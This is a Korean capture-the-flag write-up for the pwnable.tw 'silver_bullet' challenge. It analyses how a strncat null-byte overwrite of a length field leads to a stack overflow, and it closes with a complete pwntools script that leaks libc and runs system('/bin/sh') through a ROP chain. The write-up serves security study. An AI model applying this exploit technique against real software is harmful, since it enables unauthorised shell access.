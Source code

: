 # [summary]
- null byte bug
- bof -> rop

# analysis
```console
m444ndu@ubuntu:~/pwntw/silver_bullet$ checksec  silver_bullet 
[*] '/home/m444ndu/pwntw/silver_bullet/silver_bullet'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


`main` 문의 `ebp-0x34` 위치의 변수를 다음과 같이 바꿔주시면 분석이 용이합니당
```ㅊ
_bullet{
    char bullet[0x30];
    int bullet_power;
}
```

## create_bullet()
```c

  if ( _bullet->bullet[0] )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(_bullet, 0x30u);
  v2 = strlen(_bullet->bullet);
  printf("Your power is : %u\n", v2);
  _bullet->bullet_power = v2;
  return puts("Good luck !!");
```
그냥 초반에 입력받은 문자의 개수를 `bullet_power`에 저장합니다. 별로 중요하지는 않은 것 같습니다.

## power_up()
```c
int __cdecl power_up(struct bullet_struct *_bullet)
{
  char buf; // [esp+0h] [ebp-34h]
  int v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&buf, 0, 0x30u);
  if ( !_bullet->bullet[0] )
    return puts("You need create the bullet first !");
  if ( _bullet->bullet_power > 0x2Fu )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&buf, 48 - _bullet->bullet_power);
  strncat(_bullet->bullet, &buf, 48 - _bullet->bullet_power);
  v3 = strlen(&buf) + _bullet->bullet_power;
  printf("Your new power is : %u\n", v3);
  _bullet->bullet_power = v3;
  return puts("Enjoy it !");
 }
 ```
`bullet_power`가 <= 47일 경우 입력하지 않은 남은 `bullet` 공간의 크기만큼 입력을 더 받아 `bullet`에 추가한 뒤, `bullet_power`를 업데이트합니다. 사실 본 바이너리의 취약점은 여기서 발생합니다. 

기존 `bullet` 문자열에 추가를 `strncat()` 함수로 진행하는데, `strcat, strncat`의 경우 기존 `destination 문자열`의 `null`부터 문자열을 추가한 뒤, 뒤에 `null`을 붙입니다. `bullet` 배열 다음은 `bullet_power`이므로, `bullet_power`가 `null`로 덮어지는 경우가 발생합니다. 이 후 `bullet_power`는 기존 `buf`에 남아있는 문자열의 개수로 업데이트됩니다.

따라서, 만약 47만큼 `bullet`이 덮인 상황이라면 1바이트만큼 추가로 덮이게 되고, 본 함수가 끝날 때 `bullet_power`는 1로 업데이트됩니다. 여기에 다시 한번 `power_up()` 함수를 실행하면, `read_input()`으로 47바이트만큼 입력을 받아 `strncat()`을 통해 `bullet[0x31]`부터 덮어쓸 수 있게됩니다.`("A"*47 + "A" + "0x01" + 추가)` 
덮어쓸 수 있는 범위 안에 `eip`가 존재하므로 **ROP chain**을 통한 **exploit**이 가능합니다.


## beat()
```c
  if ( a1->bullet[0] )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *a2 -= a1->bullet_power;
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
```
`0x7fffffff`만큼있는 `Gin의 HP`를 `bullet_power`로 열심히 깎을 수 있습니다. `HP`가 0이하가 되면 1을 리턴하여 `main 함수`가 정상적으로 종료함으로써 아까 구성한 `ROP chain`을 사용할 수 있게 됩니다.

# exploit
```python
#! /usr/bin/python
from pwn import *

def powerup(data):
    r.sendlineafter('Your choice :','2')
    r.sendlineafter('bullet :',data)

def beat():
    r.sendlineafter('Your choice :','3')

r = process('./silver_bullet', env={'LD_PRELOAD':'./libc_32.so.6'})
r = remote('chall.pwnable.tw',10103)
#context.log_level = 'debug'
#gdb.attach(r,'b* 0x080488dd')


# ----- stage 1 : leak libc ----- #

### create bullet ###
r.sendlineafter('Your choice :','1')
r.sendlineafter('bullet :','A'*47)

### power up! ###
powerup('A')  # bullet_power -> 1

'''
puts@plt 0x80484a8:    jmp    DWORD PTR ds:0x804afdc

'''
payload = ''
payload += 'A'*7
payload += p32(0x080484a8) # puts@plt
payload += p32(0x08048475) # pop ebx ; ret
payload += p32(0x0804afdc) # puts@got
payload += p32(0x08048954) # return main

powerup(payload)
beat()
beat()

r.recvuntil('Oh ! You win !!\n')
leak = u32(r.recv(4))
libc_base = leak - 389440
success('libc_base = '+hex(libc_base))

system_addr = libc_base + 239936
binsh_addr = libc_base + 1412747

# ----- stage 2 : execute system("/bin/sh") ----- #

### create bullet ###
r.sendlineafter('Your choice :','1')
r.sendlineafter('bullet :','A'*47)

### power up! ###
powerup('A')  # bullet_power -> 1

payload2 = ''
payload2 += 'B'*7
payload2 += p32(system_addr)
payload2 += 'AAAA'
payload2 += p32(binsh_addr)

powerup(payload2)
beat()
beat()

r.interactive()
```
